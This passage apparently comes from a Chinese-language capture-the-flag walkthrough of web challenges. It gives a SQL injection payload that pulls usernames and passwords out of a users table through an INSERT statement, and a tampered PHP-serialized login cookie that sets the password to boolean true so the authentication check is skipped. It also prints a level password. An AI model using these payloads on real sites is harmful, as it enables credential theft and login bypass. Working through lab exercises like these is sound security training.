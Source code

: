 ```bash
autor=1&title=1&text='),('&post=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```
出现报错，尝试很多次，用下面的语句成功回显，1,2
```bash
autor=1&title=1&text='),(1,2,'&post=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```
最终payload
```bash
autor=1&title=1&text='),((select username from level9_users limit 1),(select password from level9_users limit 1),'&post=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```
下一关的：get_post_cookie_head__kittens_eating_all_my_bread
# level 10 

抓包得到
```bash
login=YToyOntzOjg6InVzZXJuYW1lIjtzOjY6Ik1vbmtleSI7czo4OiJwYXNzd29yZCI7czoxMjoiMDgxNXBhc3N3b3JkIjt9&dologin=Login
```
将login的值，base64解密一下的得到一段账户密码的序列化
```bash
a:2:{s:8:"username";s:6:"Monkey";s:8:"password";s:12:"0815password";}
```
一开始直接改username为TheMaster发现不成功，查看资料，才知道要将password的值改为bool类型的，例如我们只需要将password的属性修改为boolean类型的true，那么就可以绕过检查了。所以payload的形式为:
```bash
a:2:{s:8:"username";s:9:"TheMaster";s:8:"password";b:1;}
```
最后将这个字符串进行base64编码,
```bash
YToyOntzOjg6InVzZXJuYW1lIjtzOjk6IlRoZU1hc3RlciI7czo4OiJwYXNzd29yZCI7YjoxO30=
```
最终的payload
```bash
```
